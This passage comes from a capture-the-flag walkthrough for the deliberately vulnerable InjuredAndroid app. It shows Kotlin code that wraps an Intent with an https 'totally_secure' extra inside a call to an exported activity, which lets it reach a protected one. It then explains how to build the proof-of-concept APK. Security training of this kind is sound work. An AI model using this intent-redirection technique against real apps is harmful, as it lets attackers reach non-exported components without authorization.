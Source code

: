 With just five lines of code, we've *almost* solved this flag! There is only one step left. Let's check the source code for `FlagTwelveProtectedActivity`
again and see what it does when it's opened:

![main_class](https://user-images.githubusercontent.com/86139991/176517157-74693cf8-1d7a-44ff-bc58-310f0a6a5b60.PNG)

Like `ExportedProtectedActivity`, this class also uses `getIntent()` to find the `Intent` that started it. It seems to check this intent for the "extra"
field `totally_secure`, and then attempts to parse it as a URL. If this URL has the scheme `"https"`, the flag is unlocked; otherwise, the app returns
early. To pass this check, we need to add this field to the `protectedIntent`:

```kotlin
val protectedIntent = Intent()
protectedIntent.setClassName("b3nac.injuredandroid", "b3nac.injuredandroid.FlagTwelveProtectedActivity")
protectedIntent.putExtra("totally_secure", "https://zombo.com")

val exportedIntent = Intent()
exportedIntent.setClassName("b3nac.injuredandroid", "b3nac.injuredandroid.ExportedProtectedActivity")
exportedIntent.putExtra("access_protected_component", protectedIntent)
```

That seems to be it! Now we just have to add one line that starts `ExportedProtectedActivity` with the right intent:

```kotlin
val protectedIntent = Intent()
protectedIntent.setClassName("b3nac.injuredandroid", "b3nac.injuredandroid.FlagTwelveProtectedActivity")
protectedIntent.putExtra("totally_secure", "https://zombo.com")

val exportedIntent = Intent()
exportedIntent.setClassName("b3nac.injuredandroid", "b3nac.injuredandroid.ExportedProtectedActivity")
exportedIntent.putExtra("access_protected_component", protectedIntent)

startActivity(exportedIntent)
```

### Building and installing our app

If you've gotten this far, congratulations! You've written a malicious PoC app to exploit a vulnerability in another application. This may seem like a simple
accomplishment, but back when you started working through this app, you probably thought it would be quite difficult. You've done it, and congratulations
are in order. Now, let's build our app and get it on the emulator!

This is very easy in Android Studio. We can build our app into an `.apk` (the file format for Android app images) in the menu `Build ->
Build Bundle(s) / APK(s) -> Build APK(s)`:

![build_apk](https://user-images.githubusercontent.com/86139991/176518202-4e08284a-03aa-4f38-a1d9-6513b8b62ea8.PNG)
